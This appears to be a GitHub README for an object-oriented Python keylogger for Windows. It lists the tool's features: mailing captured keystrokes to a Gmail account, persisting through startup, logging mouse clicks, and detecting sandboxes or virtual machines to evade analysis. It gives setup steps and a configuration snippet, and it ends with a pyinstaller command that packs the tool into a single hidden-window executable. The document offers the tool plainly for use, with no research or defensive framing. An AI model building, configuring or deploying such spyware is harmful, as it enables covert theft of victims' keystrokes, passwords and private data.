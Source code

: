 # Python Keylogger

This program is an object oriented windows keylogger written in python3.

## Installation

This program requires:
* [Python3](https://www.python.org/downloads/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [Pynput](https://pypi.org/project/pynput/)
* [Pyinstaller](https://pypi.org/project/PyInstaller/)

1. Download the repository using github or git.
2. Install the modules above one by one or install them all at once by running `python -m pip install -r requirements.txt`

## Features
* Ability to send logs to any gmail account.
* Ability to store logs locally.
* Ability to add to startup.
* Ability to log special characters.
* Ability to capture window mouse clicks.
* Ability to check for sandboxie/virtual machine.
* And more...

## Usage

1. Open `src/main.py` in a text editor
2. Naviate to the main method:

```
if __name__ == "__main__":
    main = main(60, "c:/temp/log.txt")

    # main = main(180)
    # main = main(180, "", True, True, True, True)
    # main.override_gmail("email@gmail.com", "pass")

    main.start()
```

3. Modify the constructor arguments such as in the commented examples where arg1 is the time before exporting logs, arg2 is the path to export the logs to (if sending logs by email, set this to ""), arg3-6 are bools for adding to startup, logging clicks, checking for virtual machine, and checking for sandboxie correspondingly.

4. Call `override_gmail()` with an gmail account and password as corresponding arguments if sending logs by email.

5. Save the file and run `pyinstaller main.py --onefile --windowed` to compile the python file as a single .exe.
